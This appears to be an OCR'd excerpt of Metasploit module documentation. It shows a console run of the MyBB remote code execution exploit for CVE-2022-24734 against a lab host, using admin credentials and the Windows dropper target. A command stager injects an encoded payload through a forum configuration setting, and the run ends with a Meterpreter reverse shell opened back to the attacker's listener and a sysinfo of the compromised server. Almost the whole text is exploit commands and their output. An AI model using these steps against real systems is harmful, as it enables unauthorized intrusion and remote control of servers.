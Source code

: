 ```
C:\nginx\www\admin>
-----


C:\nginx\www\admin>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 4215-6DA6

 Directory of C:\nginx\www\admin

05/19/2022  04:11 PM    <DIR>          .
05/19/2022  04:11 PM    <DIR>          ..
05/19/2022  04:11 PM    <DIR>          backups
05/19/2022  04:11 PM    <DIR>          inc
10/29/2021  12:00 AM            24,476 index.php
05/19/2022  04:11 PM    <DIR>          jscripts
05/19/2022  04:11 PM    <DIR>          modules
05/19/2022  04:11 PM    <DIR>          styles
               1 File(s)         24,476 bytes
               7 Dir(s)  48,613,580,800 bytes free
```


### Windows (target 5 - Windows (Dropper))
```
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > set target 5
target => 5
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.1.44 RHOSTS=192.168.1.215 USERNAME=msfuser PASSWORD=123456
[*] Started reverse TCP handler on 192.168.1.44:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
[*] Generated command stager: ["echo TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAA...
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...
[*] Command Stager progress -   2.01% done (2046/101881 bytes)
...
[*] Command Stager progress -  98.40% done (100252/101881 bytes)
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Sending stage (175174 bytes) to 192.168.1.215
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...
[*] Command Stager progress - 100.00% done (101881/101881 bytes)
[*] Meterpreter session 7 opened (192.168.1.44:4444 -> 192.168.1.215:64264) at 2022-05-23 15:45:07 +0200

meterpreter > sysinfo
Computer        : DC02
OS              : Windows 2016+ (10.0 Build 17763).
```